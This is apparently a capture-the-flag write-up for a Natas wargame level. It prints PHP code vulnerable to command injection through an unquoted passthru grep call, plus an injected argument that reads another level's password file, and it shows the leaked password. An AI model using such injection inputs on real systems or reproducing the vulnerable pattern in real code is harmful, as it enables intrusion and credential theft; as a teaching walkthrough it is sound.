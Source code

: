 This level is nearly identical to the last one, with one major difference, which didn't change the challenge all that much. The source code for this challenge is below

```
`<?   
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
	$key = $_REQUEST["needle"];   }      
	
if($key != "") {       
	if(preg_match('/[;|&]/',$key)) {
		print "Input contains an illegal character!";   
	} 
	else {
		passthru("grep -i $key dictionary.txt");       
	}   
}   
?>`
```

the main difference being the preg_match command outlawing ; & and |
these are the characters used to stop a linux command, and start a new one right after on the same line. These are also how we solved the last challenge. Luckily they already gave us a grep command that we can use. 

you don't have to end the grep command to get your password. I used the following command to grep for e in the password directory, using the hunch that somewhere in the unique password there would be an e.

```
e ../../../../etc/natas_webpass/natas11
```

this means the command passed to the server is 

```
grep -i e ../../../../etc/natas_webpass/natas11 dictionary.txt
```

the output is much longer, because it's also grepping for e in dictionary.txt
however the first line was the grepped password

../../../../etc/natas_webpass/natas11:1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg